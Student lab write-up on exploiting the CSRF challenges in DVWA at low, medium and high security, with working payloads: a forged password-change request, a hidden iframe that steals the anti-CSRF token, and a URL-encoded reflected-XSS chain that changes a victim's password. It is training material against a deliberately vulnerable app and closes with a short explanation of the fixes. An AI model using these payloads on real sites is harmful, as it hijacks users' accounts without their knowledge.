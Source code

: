 # Tutorial 9: Client-Side Web Vulnerabilities (Part 2)

## Cross-site request forgery vulnerabilities in DVWA

Our goal is to exploit the vulnerabilities in the **CSRF** category of `dvwa`. We want to create a website that, if the user visits, will change their password to the current security level without their knowledge or permission.

#### *Security Level: low*

To first figure out how to perform a CSRF attack, we need to see how the password is actually changed. In our network view, we see the following GET request is made:
```
http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

This matches the PHP code:
```PHP
if( isset( $_GET[ 'Change' ] ) ) {
// Get input
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];
}
```
If all of these fields are set correctly, the password is updated.

This means that our evil website simply needs to send the appropriate get request to the dvwa endpoint, and if the user is authenticated, it should change the password.

My first instinct was to use the `fetch()` function like in tutorial 7. However, when looking at the network view when loading our [evil webpage](low.html), we get a 302 error with a CORS Missing Allow Origin. This essentially means that `dvwa`'s response doesn't have the required `Access-Control-Allow-Origin` header, which is used to determine whether or not the resource can be accessed by content operating within the current region. However, if you access the url above using the `src` attribute, we don't get this error. This is becauses the corss-origin sharing standard does not include [`img` tags](https://stackoverflow.com/questions/47978252/how-img-tag-gets-content-over-cors-headers).

After opening up the payload in our browser, when we try to log back in we can see that the password has changed.

#### *Security Level: medium*

In this level, the following check has been added:
```PHP
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ])!=-1 )
```
`stripos` returns the position where the name of the server host under which the current script is executing (`$_SERVER[ 'SERVER_NAME' ]`) exists inside the address of the page (if any) which referred the user agent to the current page (`$_SERVER[ 'HTTP_REFERER' ]`). If the `HTTP_REFERER` is not found, the function returns `false`. The issue is that the webpage checks that the result `!= -1`. This means that even if the string is not found, the check returns true since `false != -1` returns `true`.

This means that this difficulty is effectively the same as the previous level, and the exact same payyload can be used.

#### *Security Level: high*

In this level, the following check is used instead:
```PHP
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```
The `checkToken` function seems to be one that is locally defined somehwere. After trying the same payload for medium, I was redirected to `index.php`, which leads me to believe that this function essentially checks that the `user_token` in the GET request matches the `session_token`, and if they don't you are redirected to `index.php`. We essentially need to get the `session_token`, which seems to be created by `generateSessionToken();` at the bottom of the PHP script. If we check the source code for the webpage, we can see that the `user_token` is actually embedded in the webpage:
```html
<input type="hidden" name="user_token" value="ede42a723132328bf807ab0596238d7a">
```
We therefore need a way to get the the token from the webpage, then include it in our GET request to change the username. As seen in the *low* category, we are unable to make requests to `dvwa` directly. However, we can load the page in an `<iframe>`, which we can then examine for the CSRF token:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="payload()">
</iframe>
<script>
function payload() {
  var iframe = document.getElementById('csrf_vuln'); // Gets the iframe from the DOM
  var doc = iframe.contentWindow.document; // Gets the content inside the iframe
  var token = doc.getElementsByName('user_token')[0].value; // Gets all elements with the name "user_token", looks at the first one and takes its value field

  const http = new XMLHttpRequest();
  const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; // Embed token in our request
  http.open('GET', url);
  http.send(); // Send request
}
</script>
```
The HTML code above does exactly this, loading the webpage into a hidden `<iframe>` and ef we xecuting a payload. However, if we try opening this file in our browser ([high_payload.html](high_payload.html)), we notice the following error in our console:
```
Uncaught DOMException: Permission denied to access property "document" on cross-origin object
```
Essentially, since our page has a different origin to `dvwa`, we cannot access the the content inside the iframe (the `doc` variable), meaning that in order for this to work this must be done from dvwa's origin. There are 2 ways (that I could think of) to do this:
- Upload the malicious website to `dvwa` through the **file upload** vulnerability, and redirect users who visit our malicious webpage to it.
- Exploit the **XSS (reflected)** vulnerability by encoding the payload inside the URL, and make our webpage fetch this vulnerable url.

I opted for the second option, since I couldn't be bothered to figure out how to upload an html file on *high* difficulty (and it felt like cheating to lower the difficulty to upload the file). Also, using XSS is more elegant in my opinion since it only requries 1 website. To perform this XSS attack, I needed to rewrite my payload in a format where it would pass the filters on the *high* difficulty:
```html
<iframe id="csrf_vuln" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" style="visibility: hidden;" onload="var iframe = document.getElementById('csrf_vuln'); var doc = iframe.contentWindow.document; var token = doc.getElementsByName('user_token')[0].value; const http = new XMLHttpRequest(); const url = 'http://10.6.66.42/dvwa/vulnerabilities/csrf/?password_new=high&password_conf=high&Change=Change&user_token='+token; http.open('GET', url); http.send();"></iframe>
```
Like in [tutorial 7](../tutorial_7/notes.md), I needed to add a line break in the url encoding of the payload to stop it from being filtered by the regex. Once this was done, our payload was ready:
```
http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E
```
I first tested this by opening this link in a new tab, which caused my password to be changed. Now, all we need to do is ensure that our malicious webpage accesses this link, so I created a hidden `<iframe>` which performs the GET request to our payload url:
```html
<iframe src="http://10.6.66.42/dvwa/vulnerabilities/xss_r/?name=%3Ciframe+id%3D%22csrf_vuln%22+src%3D%22http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%22+style%3D%22visibility%3A+hidden%3B%22+onload%3D%22var+iframe+%3D+document.getElementById(%27csrf_vuln%27)%3B%0A+var+doc+%3D+iframe.contentWindow.document%3B+var+token+%3D+doc.getElementsByName(%27user_token%27)%5B0%5D.value%3B+const+http+%3D+new+XMLHttpRequest()%3B+const+url+%3D+%27http%3A%2F%2F10.6.66.42%2Fdvwa%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dhigh%26password_conf%3Dhigh%26Change%3DChange%26user_token%3D%27%2Btoken%3B+http.open(%27GET%27%2C+url)%3B+http.send()%3B%22%3E%3C%2Fiframe%3E", style="visibility: hidden;">
</iframe>
```
Another option is to redirect our user to the payload url using a `<meta>` tag in the header, but this means that the user can see that they've been redirected, which might be a little *sus*. If we now open our [evil webpage](high.html), all the relevent network requests are made, with our XXS attack triggering a CSRF attack which sets the user's password to 'high'!

## Questions
1. In the *easy* difficulty, there is no attempt to prevent CSRF. The attempts to prevent if in the other levels are on line 5:
  - *Medium level:* The faulty if-statement was covered in it's section. However, if it worked as intended it could still easily be bypassed (e.g. with the use of an iframe). Furthermore, the server name could appear anywhere in the referring url, and doesn't even need to be the origin to bypass the filter.
  - *High level:* The anti-CSRF token is static and per-user, allowing it to be stolen (using another exploit in DVWA) and reused in a CSRF exploit at any later time.

2. These vulnerabilites could be solved with the correct implementation of an anti-CSRF token, or requiring the user to correctly supply some authenticating information (e.g. their current password) before performing the password change.
